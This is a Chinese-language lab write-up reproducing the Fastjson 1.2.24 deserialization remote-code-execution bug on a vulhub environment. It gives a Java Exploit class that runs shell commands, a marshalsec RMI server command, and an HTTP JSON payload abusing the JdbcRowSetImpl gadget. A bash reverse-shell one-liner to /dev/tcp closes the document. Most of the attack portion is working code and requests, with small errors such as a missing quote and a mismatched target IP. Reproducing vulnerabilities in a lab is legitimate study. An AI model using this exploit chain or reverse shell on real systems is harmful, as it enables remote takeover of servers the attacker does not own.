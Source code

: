 Fastjson反序列化漏洞复现

准备

vulhub的fastjson环境(1.2.24.rec)(jdk1.8.0_102)

(自行编译marshalsec.jar)https://github.com/mbechler/marshalsec



攻击IP：192.168.0.110:7000

rmi服务器: 192.168.0.110:9000

被攻击服务器地址：192.168.0.110:8090



因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

------

准备序列化文件Exploit.java并对其使用javac编译成Exploit.class

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"bash, "-c", "touch /POC"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));
            
        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }
        
        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

然后将Exploit.class文件上传到我们的攻击服务器上

![image-20201207202522946](/Users/myhome/Library/Application Support/typora-user-images/image-20201207202522946.png)



再然后我们借助marshalsec项目，启动一个RMI服务器，监听9000端口，利用RMI服务器中转下载远程序列化类`Exploit.class`：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.110/#Exploit" 9000
```

![屏幕快照 2020-12-07 下午8.35.15](/Users/myhome/Desktop/屏幕快照 2020-12-07 下午8.35.15.png)

最后向被攻击服务器发送payload

> **POST** / HTTP/1.1
> Host: 192.168.0.118:8090
> Accept-Encoding: gzip, deflate
> Accept: */*
> Accept-Language: en
> User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
> Connection: close
> **Content-Type: application/json**
> Content-Length: 160
>
> **{**
>     **"b":{**
>         **"@type":"com.sun.rowset.JdbcRowSetImpl",**
>         **"dataSourceName":"*rmi://192.168.0.110:9000/Exploit*",**
>         **"autoCommit":true**
>     **}**
> **}**



执行结果

![屏幕快照 2020-12-07 下午8.40.47](/Users/myhome/Desktop/屏幕快照 2020-12-07 下午8.40.47.png)

rmi服务器返回结果

![屏幕快照 2020-12-07 下午8.41.02](/Users/myhome/Desktop/屏幕快照 2020-12-07 下午8.41.02.png)

登入被攻击服务器查看反序列化类的命令执行成功执行。

![屏幕快照 2020-12-07 下午8.42.54](/Users/myhome/Desktop/屏幕快照 2020-12-07 下午8.42.54.png)

exec bash -i &>/dev/tcp/192.168.0.110/8002 <&1                                                        